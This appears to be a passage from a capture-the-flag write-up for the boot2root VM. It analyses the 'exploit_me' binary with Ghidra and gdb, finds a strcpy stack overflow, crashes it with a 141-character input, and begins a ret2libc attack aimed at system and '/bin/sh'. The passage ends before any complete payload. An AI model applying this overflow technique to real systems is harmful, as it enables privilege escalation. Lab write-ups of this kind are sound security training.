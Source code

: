 We found a binary **exploit_me** and a folder **mail** containing three files:
```bash
zaz@BornToSecHackMe:~$ ls -R
.:
exploit_me  mail

./mail:
INBOX.Drafts  INBOX.Sent  INBOX.Trash
```

The three files are empty and the binary take one argument that it prints as output:
```bash
zaz@BornToSecHackMe:~$ ./exploit_me coucou coucou2
coucou
```

We take out the binary from the VM to disasemblate it with **ghidra**:
```bash
$ scp zaz@192.168.1.19:/home/zaz/exploit_me ~/boot2root/exploit_me
```
```python
bool main(char **argv, char **envp)
{
    undefined auStack144 [140];
    
    if (1 < (int32_t)argv) {
        strcpy(auStack144, envp[1]);
        puts(auStack144);
    }
    return (int32_t)argv < 2;
}
```

Here, we can see that it does a **strcpy** in a stack of 140 char, it might be possible to overflow it.

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 141)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

We're going to perform a [ret2libc](https://beta.hackndo.com/retour-a-la-libc/), we need addresses of **system** and the string **"/bin/sh"**.

First we launch **gdb** and disassemble main to find a random **breakpoint**:
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp # like this one
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
```
